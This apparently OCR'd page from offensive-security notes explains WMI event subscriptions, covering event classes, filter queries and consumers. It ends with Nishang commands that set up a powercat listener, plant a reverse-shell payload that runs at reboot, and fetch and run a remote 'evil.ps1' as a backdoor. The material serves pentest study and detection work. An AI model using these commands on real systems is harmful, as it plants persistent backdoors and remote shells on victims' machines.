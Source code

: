 
- **Extrinsic**: A predefined occurence that cannot be directly linked to changes in the WMI model. These events are defined by the providers themselves. They do not have as much coverage as intrinsic events. There is no chance of missing them. For example, a computer shutdown event.

	- ROOT\\CIMV2:Win32_ComputerShutdownEvent 
	- ROOT\\CIMV2:Win32_IP4RouteTableEvent 
	- ROOT\\CIMV2:Win32_ProcessStartTrace 
	- ROOT\\CIMV2:Win32_ModuleLoadTrace 
	- ROOT\\CIMV2:Win32_ThreadStartTrace 
	- ROOT\\CIMV2:Win32_VolumeChangeEvent 
	- ROOT\\CIMV2:Msft_WmiProvider* 
	- ROOT\\DEFAULT:RegistryKeyChangeEvent 
	- ROOT\\DEFAULT:RegistryValueChangeEvent

**Filters** represent the definition of the event to trigger and take the form of a WMI query:
- **Intrinsic query**
```powershell
SELECT * FROM __InstanceOperationEvent WITHIN 30 WHERE ((__CLASS = "__InstanceCreationEvent" OR __CLASS = "__InstanceModificationEvent") AND TargetInstance ISA "CIM_DataFile") AND (TargetInstance.Extension = "doc") OR (TargetInstance.Extension = "docx") 
```

- **Extrinsic query**
```powershell
SELECT * FROM Win32_VolumeChangeEvent WHERE EventType = 2 
```

These are the standard event **consumers**:

| Class | Description |
| --- | --- |
| **ActiveScriptEventConsumer** | Executes a predefined VBScript or Jscript |
| **CommandLineEventConsumer** | Launches a process with SYSTEM privileges |
| LogFileEventConsumer | Write data to a log file |
| NTEventLogEventConsumer | Logs a message to the Windows event log |
| SMTPEventConsumer | Sends an email using SMTP |

and are present in the following namespaces: 

- ROOT\\CIMV2 
- ROOT\\DEFAULT

Events can be exploited to add persistence to a box by using `Add-Persistence.ps1` from `Nishang`:

```powershell
# Nishang
# It is convenient to setup a persistent listener
. .\powercat.ps1
powercat -l -v -p 8080 -t 1000 -rep

# Utility/Add-Persistence.ps1
. .\Add-Persistence.ps1

# Drop the reverse shell PowerShell script and WindowsSanity.vbs on the target box. The VBscript file and thus the PowerShell payload will be executed on every reboot. Please note that C:\test\Invoke-PowerShellTcpOneLine.ps1 is the path on the target machine.
Add-Persistence -PayloadPath C:\test\Invoke-PowerShellTcpOneLine.ps1

# Use the above to download and execute in memory the evil.ps1 script everytime the target machine reboots.
Add-Persistence -PayloadURL http://yourwebserver/evil.ps1 

# The backdoor will be activated after 4 minutes of system uptime

# Utility/Remove-Persistence.ps1
```